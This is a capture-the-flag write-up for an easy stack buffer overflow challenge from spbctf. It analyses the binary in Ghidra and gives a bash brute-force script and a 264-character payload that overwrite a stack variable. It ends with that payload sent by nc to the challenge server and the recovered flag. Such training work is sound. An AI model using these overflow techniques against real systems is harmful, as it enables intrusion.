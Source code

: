 
<p align="center">
  <img src="./screenshots/buffer_logo.png" alt="buffer_logo"/>
</p>

---

- 🎯 **Target:** Kids 2.0 pwn.spbctf - Easy Overflow 1
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 19.06.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** `Stack Buffer Overflow`
- 💻 **Platform:** Linux

---

## Ghidra

> I download the `mc4_censored` task file and open it in `ghidra` to disassemble and identify potentially vulnerable code blocks:

![mc4_censored_download](./screenshots/mc4_censored_download.png)

![ghidra](./screenshots/ghidra.png)

> I see the main function `main` which is executed when the file `mc4_censored` is executed. The logic of the function is presented on the right side of the program:

![main_function](./screenshots/main_function.png)

> the function consists of a stack where local variables are located. The stack grows downwards, so: `local_118[8]` is located above (in memory at a higher address), then `word[256]`, then `local_10[4]`.
> When the file is executed, the string `What's your favorite word?` is printed; after user input, the value is saved in an array of `8` bytes - `local_118`.

> the string `"No."` is copied to `local_10`.

> The problem is in this line `«scanf("%s", local_118);»`. This line reads the input string from the user without length limitation into a buffer of `8` bytes -> `local_118`.
> This can lead to a `buffer overflow` vulnerability, which will allow you to simply overwrite the values ​​of adjacent variables on the stack, for example - `local_10`.

> According to the logic of the function, if `local_10` is equal to - `"Yesss!"`, then the program will print a flag to the console:

```none

printf("Flag is: spbctf{*********************}\n");

```

> Otherwise, since the `local_10` variable contains the string `"No."`, the console will print the string `Good, but i won\'t give you flag.\n`:

```none

printf("Good, but i won\'t give you flag.\n");

```

> **Note:** `Buffer Overflow` is a memory management bug attack technique that occurs when a program, when executed, overwrites the user's input data in
> the program's allocated memory (buffer), going beyond its limits and thereby overwriting critical data in these variables or giving the opportunity to write its own.

---

> So the point is that the program itself does not expect that the user's input will affect the `local_10` variable, but this is possible due to the poor buffer size and lack of protection.

> When executing the file, you need to enter such a number of characters to go beyond the allocated memory cell and overwrite `local_10`. That is, overwrite its value - the string `"No."`

> Manually selecting the appropriate number of characters is very time-consuming. To exploit this attack, I will write a simple script `mc4_exploit.sh` to enumerate characters starting from `1`
> and ending with `1000` (for example) and specify the file `mc4_censored` as an argument:

```bash

#!/bin/bash
	for i in {1..1000}; do

  		echo -n "$i: ";

  		python3 -c "print('A'*$i + 'Yesss!')" | ./mc4_censored
	done

```

> Make the file executable and run it:

```bash

chmod +x mc4_exploit.sh

./mc4_exploit.sh

```
> Result:

![script_flag](./screenshots/script_flag.png)

> When sending `264` characters with the string `«Yesss!»` appended, the program returns a flag. (encrypted :) )

> Ok. Now I know that the buffer overflow starts with the `264` character and then the data is overwritten.

> Again, as with the script, manually typing `264` characters is too tedious. To generate a string with arbitrary characters of the required length, I will use the `pwgen` utility:

```bash

pwgen -s 264 1

```
> Result:

![pwgen_string](./screenshots/pwgen_string.png)

> The string is ready. Don't forget to add `"Yesss!"` at the end because we need to overwrite the value of the `local_10` variable after overflow. That is, by the conditions after overflow
> I replace the value of the current variable `local_10` with the string `"Yesss!"` and then the logic will be as follows - `iVarl == 0 ` -> `"Yesss!" == "Yesss!"`.

> I run the `mc4_censored` file and send there the generated string with `Yesss!` added:

![mc4_censored_flag](./screenshots/mc4_censored_flag.png)

> OK. The data of the `local_10` variable has been overwritten. The program returned the `flag. But in encrypted form.

> To get the full flag, you need to send a request via `nc` to `109.233.56.90:11584`:

![nc_flag](./screenshots/nc_flag.png)

```bash

nc 109.233.56.90 11584

What's your favorite word?  7lhlDhfud93y2m6bEDVhgbKqoBxjcTPdI05QkKk2Xh5NBS68E2Nw0pEaloMjBWV33n1vQULY0Q9ihEgIKJkuINMtlsRk5ct4d34X5ru3eAXg0T79WTEbkTGIUkoj8TUZWYCWEbmG1DaWa5
			    VouqpMnWF3Cq3OnKw00UpVLEKIrZFwyOx4ppbu1ze4bmLEeSNo4jzn19KtVAzvoXVtIYKaBPV1UcCkSr4a1KMu6t5p2HFVGPwFdSxVmHbW8qnP5IvxxbcRCQbdYesss!

Flag is: spbctf{babys_f1rst_0verfl0ww}


```

> I get flag - `spbctf{babys_f1rst_0verfl0ww}`

